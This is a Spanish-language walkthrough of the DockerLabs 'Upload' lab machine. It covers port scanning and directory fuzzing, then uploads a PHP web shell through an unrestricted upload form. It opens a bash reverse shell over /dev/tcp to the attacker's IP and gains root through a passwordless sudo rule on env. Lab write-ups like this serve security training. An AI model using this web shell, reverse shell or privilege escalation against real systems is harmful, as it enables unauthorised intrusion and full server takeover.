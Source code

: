 # Máquina Upload

## Reconocimiento
Comenzamos realizando un escaneo general con nmap sobre la IP de la máquina víctima para ver que puertos tiene abiertos.
Este escaneo realiza un escaneo de todos los puertos disponibles en el host "172.17.0.2", mostrando solo los
puertos abiertos, utilizando el escaneo de tipo TCP SYN ("-sT"), estableciendo una velocidad mínima de envío de paquetes de 5000 por segundo ("--min-rate 5000"), activando el modo de verbosidad extremadamente alto ("- vvv"), desactivando la resolución DNS ("-n"), no realizando el ping previo al escaneo ("-Pn"), y guardando los resultados en formato Greppable en un archivo llamado "allPorts" ("-oG allPorts").

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________

PORT    STATE SERVICE REASON
80/tcp  open  http  syn-ack
```
Vemos que tan solo tiene el puerto 80 abierto, es decir, el servicio http, donde estará corriendo una página web que inspeccionaremos en unos instantes.
Lanzamos un conjunto de scripts predeterminado con nmap para que nos reporte más información.
El comando realiza un escaneo utilizando el script de versión y detección de servicio ("-sCV"), enfocándose únicamente en el puerto 80 ("-p80") del host "172.17.0.2", y guarda los resultados en un archivo de texto plano llamado "targeted" ("-oN targeted").

```shell
nmap -sCV -p80 172.17.0.2 -oN targeted
________________________________________________

PORT    STATE SERVICE VERSION
80/tcp  open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)
```

--------------------

Vemos el título, la versión de Apache, y poca información más. Accedemos a la web para ver ante qué nos enfrentamos.

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/c4132f21-6c6e-4cd9-ac27-ea530c72a24a)

Encontramos un campo de subida de archivos. Esto, sumando al nombre de la máquina, nos deja claro que tendremos que abusar de una subida de archivos para intentar ganar acceso a la máquina.
Probamos a subir un archivo txt de prueba:

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/73401c36-dd46-4904-91ea-9f9786574e75)

## Fuzzing

Nos indica que se ha subido correctamente. Ahora vamos a tratar de ubicarlo en algún directorio realizando fuzzing para descubrir posibles directorios. Para ello usaremos la herramienta gobuster y un diccionario de directorios comunes:

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
________________________________________________

/icons/               (Status: 403) [Size: 275]
/uploads/             (Status: 200) [Size: 741]
/server-status/       (Status: 403) [Size: 275]
```

Encontramos un directorio uploads.
Accedemos a él y encontramos el archivo que hemos subido:

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/af16d052-d909-494b-b31e-7d7dc274e296)

También comprobamos que lo podemos abrir y leer sin problemas:

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/732d4fff-fbf9-4155-92a2-86cd325f70a2)

Como ya tenemos una ruta donde ubicar los archivos que subimos, vamos a tratar de subir un archivo con código php malicioso. Si lo logramos y este es interpretado por la máquina, podremos llegar a ejecutar comandos en la máquina que corre el servicio web, lo que se conoce como RCE -> (Remote Code Execution)

## Explotación

Creamos un archivo llamado cmd.php
En este incluimos incluiremos el siguiente contenido:

```php
<?php
	system($_GET['cmd']);
?>
```

GET es un método de solicitud utilizado en HTTP para enviar datos a un servidor web. Cuando se usa en una URL, como en ?cmd=valor, indica que se está pasando un parámetro llamado cmd con un valor específico. En el
contexto de este código PHP,	captura el valor del parámetro cmd pasado en la URL y lo utiliza
como un comando para ejecutar en el sistema.

Observamos que la hemos subido correctamente:

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/697a6d79-ff64-4d1e-bc2f-d6d8350c774f)

Nos dirigimos como antes al directorio /uploads donde lo deberíamos encontrar:

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/4fbb15fa-c9a7-4540-9801-22ea4a3de3be)


Observamos que nos está interpretando el php, ya que no aparece el texto que hemos incluido en nuestro cmd.php
Confirmamos que es vulnerable y procedemos a ejecutar un comando.

```
http://172.17.0.2/uploads/cmd.php?cmd=id
```

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/efd2655f-22ad-44b4-92b3-d8157d349460)

En este caso, al acceder a la URL  http     172.17.0.2/uploads/cmd.php?cmd=id , estamos utilizando el método GET para enviar un parámetro llamado  cmd  con el valor  id .

El código PHP en el archivo  cmd.php  ejecuta el comando del sistema que se pasa como valor de  cmd . Por lo
tanto, al pasar	como valor de  cmd , el servidor ejecuta el comando  id , que muestra la identificación del
usuario y los grupos a los que pertenece en el sistema operativo.

El siguiente paso, una vez hemos comprobado que tenemos ejecución remota de comandos sobre la máquina, ejecutamos un comando que nos envíe una consola interactiva a nuestra máquina atacante. A esto se le conoce como Reverse Shell.
Para ello, nos ponemos en escucha previamente en nuestra máquina atacante, por ejemplo con netcat:

```shell
nc -nlvp 443
```

(Es necesario root para escuchar por el puerto 443)

A continuación, ejecutamos la reverse shell a través de la url como anteriormente el comando id. Le pasaremos el siguiente valor al parámetro cmd:

```shell
http://172.17.0.2/uploads/cmd.php?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.39/443 0>%261" 
```
Los caracteres "&" los url-encodearemos para que no nos den problemas (corresponden al %26), y la IP en la reverse shell es la correspondiente a nuestra máquina atacante.

Tras ejecutarlo, comprobamos que hemos ganado acceso a la máquina.

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/cc007fd1-4766-4a3a-a950-2040f9c3fcb2)

Realizaremos un breve tratamiento de la tty para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```
(hacemos  ctrl  +  Z)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina.
Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

## Escalada de privilegios

Una de las primeras comprobaciones que se realiza al ganar acceso a una máquina es ejecutar el comando "sudo -l" para listar los permisos de sudo que tiene el usuario actual en el sistema. Muestra qué comandos específicos el usuario puede ejecutar con privilegios elevados utilizando sudo, así como cualquier restricción aplicada a esos comandos.

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/79be4197-1435-47f5-8812-09ed665d2002)

En este caso observamos que podemos ejecutar el binario "/usr/bin/env" como el usuario root, sin proporcionar contraseña.

Si no sabemos como explotarlo, podemos recurrir a [GTFOBins](https://gtfobins.github.io/) , y si es crítico esta página nos indicará como podemos explotarlo. En este caso es sencillo ya que con env podemos lanzarnos directamente una consola, y al poder ejecutarlo como root, esta consola será lanzada con sus permisos, de forma que hemos logrado el nivel de privilegios máximo sobre la máquina !

```shell
sudo env /bin/sh
whoami
________________________________________________
root
```






